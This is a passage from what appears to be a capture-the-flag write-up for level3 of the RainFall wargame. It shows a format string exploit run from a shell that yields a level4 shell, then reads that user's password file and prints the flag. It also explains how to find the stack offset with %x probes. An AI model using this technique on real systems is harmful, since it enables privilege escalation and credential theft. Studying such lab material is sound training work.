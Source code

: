 Execute the payload.sh file to enter the shell of level4 user:

```sh
level3@RainFall:~$ /tmp/offset.sh
�200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass            
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

If it doesn't work and just print the first line without the "Wait What ?!" message, then it means that the buffer size probably changed (it can happen the stacks changes a lot even if it is not supposed to on RainFall), in this case you can launch level3 and print a bunch of "%x" to know the offset necessary to access the buffer memory space, then execute payload.sh with a custom offset value as such:

```sh
level3@RainFall:~$ ./level3 
AAAA %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
level3@RainFall:~$ /tmp/
level3@RainFall:~$ /tmp/offset.sh 38
�200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
[...]
```

Here we count everything after the AAAA and stop before the 41414141 so 22 chars, with the address of m 26, so 64 - 26 = 38.
